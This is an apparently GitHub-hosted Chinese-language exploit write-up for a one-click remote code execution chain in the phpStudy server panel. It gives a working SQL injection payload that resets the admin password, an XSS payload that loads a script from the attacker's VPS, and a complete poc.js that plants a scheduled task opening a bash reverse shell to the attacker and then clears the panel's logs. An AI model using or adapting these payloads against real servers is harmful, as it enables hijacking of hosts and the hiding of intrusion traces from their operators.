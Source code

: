 # 

# PHPStudy 后台管理页面 one click RCE

## 漏洞描述

phpStudy 集安全、高效、功能与一体，已获得全球用户认可安装，运维也高效。支持一键 LAMP、LNMP、集群、监控、网站、数据库、FTP、软件中心、伪静态、云备份、SSL、多版本共存、Nginx 反向代理、服务器防火墙、Web 防火墙、监控大屏等服务器管理功能。phpStudy 面板存在存储型 XSS 漏洞，攻击者可以通过 js 调用面板中的计划任务执行系统命令。

## 影响版本

```
小皮 windows 面板 V0.102 以及以下版本
小皮 linux 面板 X1.29 以及以下版本
```

## 漏洞复现

### 方式 1 SQL 注入

phpstudy 访问面板登录页面需要添加如下 Headers：

```
x-requested-with: XMLHttpRequest
```

![image-20230519091358703](images/image-20230519091358703.png)

在用户登录处构造 Payload，其中 Password 的值是经过五次 md5 加密后的结果，脚本如下：

```python
import hashlib
str = "123456"
for i in range(0,5):
    str = hashlib.md5(str.encode()).hexdigest()
print(str)
```

填写 Payload，验证码处需要正确输入：

```
admin';UPDATE ADMINS set PASSWORD = 'c26be8aaf53b15054896983b43eb6a65' where username = 'admin';--
```

虽然提示错误信息，但此时已经成功将用户名/密码修改为： `admin/123456`

![image-20230519092040856](images/image-20230519092040856.png)

在后台计划任务处创建一个反弹 shell 脚本，点击执行：

![image-20230519092608985](images/image-20230519092608985.png)

服务器端监听，成功接收反弹 Shell：

![image-20230519092655024](images/image-20230519092655024.png)

### 方式 2 XSS

在 VPS 上放置 [poc.js](#漏洞POC)，监听 8888 端口，并通过以下命令启动 HTTP 服务：

```
python3 -m http.server 9999
```

在访问面板登录页面用户名处插入 XSS 语句：

```
<script src="http://<your-vps-ip>:9999/poc.js"></script>
```

![image-20230519100003117](images/image-20230519100003117.png)

通过方式 1，已经获得了用户名/密码为 admin/123456，进入后台验证一下计划任务是否成功写入：

![image-20230519100442704](images/image-20230519100442704.png)

等待 1 分钟，成功接收反弹 Shell：

![image-20230519094345974](images/image-20230519094345974.png)

## 漏洞POC

poc.js：

```js
function exp() {
  $.ajax({
      url: '/service/app/tasks.php?type=task_list',   //获取计划任务列表
      type: 'GET',
      headers:{
          "X-Requested-With": "XMLHttpRequest"
      },
      dataType: 'json',
      success: function (data) {
          var id = data.data[0].ID;    //任务名称
          $.ajax({
              url: '/service/app/tasks.php?type=exec_task',     //执行计划任务
              type: 'POST',
              headers:{
                  "X-Requested-With": "XMLHttpRequest",
                  "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
              },
              data: { tid: id },
              dataType: 'json',
              success: function (res) {
                  $.ajax({
                      url: '/service/app/log.php?type=clearlog',
                      type: 'POST',
                      data: { type: 'clearlog' },
                      dataType: 'json',
                      success: function (res2) {}
                  });
              }
          });
      }
  });
}

function save() {
  var data = new Object();
  data.task_id = '';
  data.title = 'test';
  data.exec_cycle = '5';
  data.week = '1';
  data.day = '3';
  data.hour = '1';
  data.minute = '1';
  data.shell = 'bash -i >& /dev/tcp/<your-vps-ip>/8888 0>&1';;
  $.ajax({
      url: '/service/app/tasks.php?type=save_shell',
      type: 'POST',
      headers:{
          "X-Requested-With": "XMLHttpRequest",
          "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
      },
      data: data,
      dataType: 'json',
      success: function (res) {
          exp();
      }
  });
}

save();
```


